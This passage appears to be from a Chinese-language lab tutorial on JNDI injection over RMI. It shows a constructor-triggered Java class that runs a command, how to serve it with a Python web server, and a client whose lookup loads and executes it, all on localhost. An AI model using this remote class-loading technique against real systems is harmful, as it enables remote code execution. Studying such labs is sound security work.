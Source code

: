 恶意代码（test.class），将其编译好放到可访问的http服务器（这里实验就放在了本地，用python3启一个web服务即可）

注意，这里不要弄成main方法了,应该构造一个显示的构造函数来放置恶意代码才会执行

并且这个恶意类不要加包名,而且不要和服务端还有客户端放在同一个目录,否则在启动客户端的时候会直接从当前目录下寻找到这个class文件,不启动web服务也能成功。

```java
//test.java
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

接下来编译出class文件,放在本地web目录即可(**这里注意，如果使用上述python命令启动的web服务，那么你在哪个目录下打开cmd窗口启动的服务，你的web目录就在哪个目录**)

```java
编译:javac test.java
部署在web服务上：python3 -m http.server 8081 #端口根据前面服务端url的端口
```

当客户端通过InitialContext().lookup("rmi://127.0.0.1:8081/obj")获取远程对象时，会执行我们的恶意代码

```java
//client.java
package JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

![img](assets/202304221640222-17299561010521.png)
